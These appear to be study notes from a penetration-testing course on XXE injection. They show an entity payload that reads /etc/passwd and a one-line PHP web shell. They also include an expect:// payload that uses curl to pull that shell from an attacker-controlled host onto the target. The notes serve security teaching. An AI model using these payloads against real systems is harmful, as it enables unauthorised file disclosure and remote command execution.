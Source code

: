 # 

```
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

# Reading Sensitive Files
```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

# XXE TO RCE

The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands. To do so, we can start by writing a basic PHP web shell and starting a python web server, as follows:

```
powen@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
powen@htb[/htb]$ sudo python3 -m http.server 80
```

```
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
> We replaced all spaces in the above XML code with $IFS, to avoid breaking the XML syntax. Furthermore, many other characters like |, >, and { may break the code, so we should avoid using them.

> The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.

---

> Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the Content-Type header to application/xml, and then convert the JSON data to XML with an online tool. If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.


> In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.
